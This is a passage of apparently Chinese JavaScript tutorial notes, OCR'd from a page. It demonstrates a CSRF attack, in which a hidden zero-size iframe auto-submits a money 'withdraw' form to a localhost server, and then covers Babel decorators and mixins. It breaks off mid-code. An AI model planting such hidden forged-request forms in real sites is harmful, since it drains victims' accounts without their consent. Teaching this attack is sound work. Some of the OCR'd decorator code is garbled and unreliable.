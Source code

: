  ###### 7.3.3.5 csrf 

```javascript
<body>
    <img src="https://www.baidu.com/img/bd_logo1.png"/>
    <iframe src="/form" frameborder="0" style="width:0;height:0"></iframe>
</body>
```

 ###### 7.3.3.6 form 

```javascript
<body>
        <form id="myform" action="http://localhost:3000/withdraw" method="POST">
            <input type="text" name="money" id="money" value="10">
        </form>
        <script>
                setTimeout(function(){
                   document.getElementById('myform').submit();
                },100);
            </script>
</body>
```

 ##### 7.3.4 支持decorators 

* [babel-plugin-proposal-decorators](https://babeljs.io/docs/en/babel-plugin-proposal-decorators)

  ```javascript
  "plugins": [
    ["@babel/plugin-proposal-decorators", { "legacy": true }],
    ["@babel/plugin-proposal-class-properties", { "loose" : true }]
  ]
  ```

 ##### 7.3.5 类decorators 
`` ` ``js @testable class Person{

} function testable(target) { target.testable=true; } console.log(Person.testable);


    ```js
    let Hooks={
        componentWillMount() {
            console.log('componentWillMount');
        },
        componentDidMount() {
            console.log('componentDidMount');
        }
    }
    function mixins(...others) {
        return function (target) {
            Object.assign(target.prototype,...others);
        }
    }
    @mixins(Hooks)
    class Component{
